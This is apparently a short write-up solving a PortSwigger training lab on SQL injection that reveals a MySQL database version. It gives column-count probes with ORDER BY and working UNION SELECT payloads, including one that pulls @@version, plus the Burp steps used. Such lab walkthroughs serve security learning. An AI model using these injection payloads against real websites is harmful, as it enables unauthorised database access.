


#### platform portswigger
### Target => Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft

**Where is vuln: product category field**

***Our Goal Display version***

## Analysis
#### check how many colums
```bash
    --  is faild
    `#` use hash for commenting
```
- ' order by 4# `is failed`
- ' order by 3# `is failed`
- ' order by 2# `its work`
- 2 columns found

#### exploit before send playload please encode all of this
- ' UNION SELECT NULL,NULL#
- ' UNION SELECT @@version,NULL# `working payload`


## steps:
1. access the lab.
2. click any product category
3. now check in burp proxy and send `payloads` and `anysis`
4. now response is okay and version not show in page
5. now check HTML raw response in burp and version show in last 
6. solve the lab 


## Automate Exploit check exploit.py

